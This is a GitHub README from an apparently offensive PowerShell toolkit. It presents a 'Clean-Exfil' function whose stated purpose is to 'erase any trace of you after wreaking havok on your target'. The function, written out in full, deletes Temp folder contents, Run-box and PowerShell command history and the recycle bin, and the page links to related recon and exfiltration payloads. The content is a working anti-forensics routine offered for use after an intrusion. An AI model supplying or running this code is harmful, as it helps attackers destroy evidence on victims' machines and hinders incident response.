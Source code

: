 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Clean-Exfil

<p align="center">
      <a href="https://www.youtube.com/watch?v=at00Glzzh8g">
        <img src=https://i.ytimg.com/vi/at00Glzzh8g/hqdefault.jpg width="300" alt="Python" />
      </a>
      <br>YouTube Tutorial	
</p>

## Description

This function is to erase any trace of you after wreaking havok on your target 

## The Function

### [Clean-Exfil] 

You will Delete contents of Temp folder, Delete run box history, Delete powershell history, and Deletes contents of recycle bin

```
function Clean-Exfil { 

# empty temp folder
rm $env:TEMP\* -r -Force -ErrorAction SilentlyContinue

# delete run box history
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /va /f

# Delete powershell history
Remove-Item (Get-PSreadlineOption).HistorySavePath

# Empty recycle bin
Clear-RecycleBin -Force -ErrorAction SilentlyContinue

}
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)

[ET-Phone-Home](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ET-Phone-Home)

[AcidBurn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
